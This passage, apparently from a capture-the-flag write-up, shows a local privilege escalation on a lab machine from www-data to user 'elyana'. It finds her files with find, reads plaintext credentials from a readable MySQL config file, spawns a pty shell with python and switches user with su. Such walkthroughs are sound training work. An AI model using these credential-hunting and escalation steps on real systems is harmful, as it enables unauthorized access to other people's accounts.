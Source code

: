 Navigate to the only one user on the target machine which is `elyana`:

```tsx
$ cd /home/elyana
$ ls -l
total 8
-rw-rw-r-- 1 elyana elyana 59 Oct  6  2020 hint.txt
-rw------- 1 elyana elyana 61 Oct  6  2020 user.txt
$ cat user.txt
cat: user.txt: Permission denied
$ cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
```

Unfortunately, the current user `www-data` does not have permission to read the `user.txt` file.

# Privilege Escalation → elyana

Let’s find all the files that is relevant to user `elyana` on the machine

```tsx
$ find / -type f -user elyana 2>/dev/null
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
```

Despite of all the files placed inside the `/home/elyana` directory that we don’t have the access permission, the `private.txt` located at `/etc/mysql/conf.d` is available for us:

```tsx
$ cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
```

Use the creds found in the `private.txt` file to become **************elyana**************:

```tsx
$ su elyana
su: must be run from a terminal
$ python3 -c "import pty;pty.spawn('/bin/bash')"
bash-4.4$ su elyana
su elyana
Password: E@syR18ght

bash-4.4$ whoami
whoami
elyana
bash-4.4$
```
